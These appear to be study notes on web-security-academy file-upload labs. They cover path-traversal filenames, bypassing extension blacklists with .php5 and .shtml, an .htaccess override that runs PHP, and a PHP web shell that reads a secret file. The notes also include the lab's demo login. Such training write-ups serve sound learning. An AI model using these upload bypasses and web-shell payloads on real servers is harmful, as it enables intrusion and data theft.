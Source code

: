 ```bash
to emulate directory traversal add .. + %2f (url-encode of a '/')

Content-Disposition: form-data; name="avatar"; filename="..%2ffile.php"

It states file is located @ 'avatar/file.php'

Instead of

https://ac6b1fd71e2a399bc04ca9d600d70086.web-security-academy.net/files/avatars/file.php

The response of the command will be found:

https://ac6b1fd71e2a399bc04ca9d600d70086.web-security-academy.net/files/file.php

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220504200619.png)

### Web shell upload via extension blacklist bypass
- Insufficient black-listing of file extensions
	- php denied, but .php5 and .shtml accepted
- Overriding the server configuration
	- "Before an Apache server will execute PHP files requested by a client, developers might have to add the following directives to their '/etc/apache2/apache2.conf' file."
		- LoadModule php_module /usr/lib/apache2/modules/libphp.so
		- AddType application/x-httpd-php .php
	- "Many servers allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings."
	- Apache servers example:
		- .htaccess
	- "Similarly, developers can make directory-specific configuration on IIS servers using a web.config file."
```bash

Target directory /home/carlos/secret 
Submit this secret using the button provided in the lab banner. 
You can log in to your own account using the following credentials: wiener:peter
Also chain exploits w/ directory traversal

Change

<?php echo file_get_contents('/path/to/target/file'); ?>

To

<?php echo file_get_contents('/home/carlos/secret'); ?>

Intercept is on 
After testing the .php extension to no avail I found the .php5 and .shtml extensions worked
Send to repeater

After sending the inital .php5 // .shtml extensions change the filename to ".htaccess" and add the following:

AddType application/x-httpd-php .php5

Go to:

GET /files/avatars/file.php5 HTTP/1.1

```
